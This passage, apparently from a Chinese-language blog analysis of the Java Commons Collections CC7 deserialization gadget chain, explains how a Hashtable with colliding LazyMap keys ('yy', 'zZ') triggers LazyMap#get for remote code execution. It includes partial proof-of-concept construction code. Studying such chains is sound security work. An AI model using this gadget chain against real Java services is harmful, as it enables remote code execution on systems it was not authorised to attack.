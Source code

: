 ![image-20220719162244181](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719162244181.png)

跟进 `AbstractMap#equals `方法，发现在红框处的 m 其实就是我们之前传入的 key，所以 m 如果可控的话，我们就可以触发`LazyMap#get` 从而 RCE

![image-20220719162721737](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719162721737.png)

接下来我们分析一下poc的构造原理：

首先创建两个具有碰撞哈希值的LazyMap，以便在readObject期间强制进行元素比较。

```java
Map innerMap1 = new HashMap();
Map innerMap2 = new HashMap();

Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
lazyMap1.put("yy", 1);


Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
lazyMap2.put("zZ", 1);
Hashtable hashtable = new Hashtable();
hashtable.put(lazyMap1, 1);
hashtable.put(lazyMap2, 2);

Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
f.setAccessible(true);
f.set(transformerChain, transformers);

lazyMap2.remove("yy");
```

- 为什么这里 hashtable 要 put 两次

主要目的是为了进入触发点，由于第一次put时候会把 key 和 value 存入 tab 中（这里的 tab 就是 reconstitutionPut 函数传入的 table），在第一次 put 的时候由于 tab 的内容为 null 导致不会进入 for 循环。

![image-20220719163740601](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719163740601.png)

由于第一次 put 将数值存入了 tab ，所以第二次 put 时就会进入 for 循环，来到我们的触发点

- 为什么 put 的值一定要 yy 和 zZ

主要目的是让两次hash相等，由于我们put了两次，那么在reconstitutionPut函数中index也会计算两次，如果第一次和第二次计算出来的 hash 值不同，那么 index 就会不同，就会导致在第二次中 tab 中会找不到值，从而 e 为 null，自然不会进入 for 循环。

为什么要put这两个值，这是因为在 java 中这两者的 hashCode 是相同的。

![image-20220719164908674](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220719164908674.png)

我们可以看一下hashcode的实现

```java
 public synchronized int hashCode() {
        int h = 0;
        if (count == 0 || loadFactor < 0)
            return h;  // Returns zero

        loadFactor = -loadFactor;  // Mark hashCode computation in progress
        Entry[] tab = table;
        for (Entry<K,V> entry : tab)
            while (entry != null) {
                h += entry.hashCode();
                entry = entry.next;
            }
        loadFactor = -loadFactor;  // Mark hashCode computation complete

        return h;
    }
```